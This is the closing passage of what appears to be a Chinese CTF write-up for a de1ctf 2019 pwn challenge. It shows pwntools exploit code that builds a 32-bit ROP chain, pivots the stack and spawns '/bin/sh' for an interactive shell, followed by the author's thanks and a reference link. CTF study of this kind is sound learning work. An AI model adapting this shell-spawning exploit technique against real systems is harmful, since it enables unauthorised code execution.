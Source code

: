 ```py
    leave_ret32 = 0x08048568
    p4_32 = 0x80489f8
    p_ebx_32 = 0x08048439
    rop32 = "/bin/sh\x00"+p32(bss_32+0x100)
    #set syscall
    rop32 += p32(read_plt_32)+p32(p4_32)+p32(0)+p32(bss_32+0x300)+p32(0x100)+p32(bss_32+0xc+0x14)#for rop64
    rop32 += p32(read_plt_32)+p32(p4_32)+p32(0)+p32(bss_32+0x300)+p32(0x100)+p32(bss_32+0xc+0x14)#for rop64
    rop32 += p32(read_plt_32)+p32(p4_32)+p32(0)+p32(write_got_32)+p32(0x100)+p32(bss_32+0xc+0x14)
    #set eax
    rop32 += p32(read_plt_32)+p32(p4_32)+p32(0)*4
    rop32 += p32(0x080489f9)+p32(0)*2+p32(0xb+0x2c)+p32(0x08048907)
    rop32 += p32(0)*9
    rop32 += p32(0x08048588)
    rop32 += p32(p_ebx_32)+p32(0x804a1f4)+p32(write_plt_32)+"/bin/sh\x00"

    Edit(13,rop32)
    #migration
    mig_32 = 0x080489ee

    #set migration
    prbp_2ret_64 = 0x400c2f
    Edit(0,p32(mig_32)+p32(0)+p64(prbp_2ret_64))
    #p.sendafter(">> ",p64(p_rbp64)+p64(bss_64+8)+p64(leave_ret64))
    #gdb.attach(p,'b* 0x0804890b')
    #gdb.attach(p,'b* 0x400b32')
    p.sendafter(">> ","a"*4+"b"*4+p32(bss_32+8)+p32(leave_ret32)+p64(0x400c2d)+p64(bss_64-8)[:6])
    raw_input()
    p.send('\xbe')
    raw_input()
    p.send("\x00"*59)


    #p.sendafter(">> ","a"*4+"b"*4+p32(bss_32+8)+p32(leave_ret32))
    raw_input()
    p.send("\x8c")
    #raw_input()
    p.interactive()

exp()
```

## 后言

花了两天时间才差不多搞懂，要再膜一些17学长和姚老板，路漫漫其修远其，吾将上下而求索。

## 参考

[17师傅](https://sunichi.github.io/2019/08/08/de1ctf19-pwn/)
